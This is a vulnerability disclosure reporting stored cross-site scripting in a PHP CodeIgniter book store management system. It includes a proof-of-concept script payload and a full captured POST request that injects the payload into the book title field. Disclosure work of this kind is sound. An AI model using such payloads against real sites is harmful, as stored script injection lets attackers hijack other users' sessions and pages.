

# Stored Cross Site Scripting

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/book/add

Proof of Concept: Go to /bsms_ci/index.php/book/add and using function “Add New Book” and insert payload at “Book Title", "Publisher" or "Author”.

[+] Payload: `<script>alert(document.domain)</script>`

Burpsuite Request:

```txt
POST /bsms_ci/index.php/book/add HTTP/1.1
Host: localhost
Content-Length: 1004
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylCtfxCb0KA0B0dj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/book
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=mhhvamokocno4687ie4ovjlfi1s4n6om
Connection: close

------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="book_title"

<script>alert(document.domain)</script>
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="year"

2022
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="price"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="category"

1
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="gambar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="publisher"

Publisher
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="writer"

Author
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="stock"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundarylCtfxCb0KA0B0dj6--
```

Image:





Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
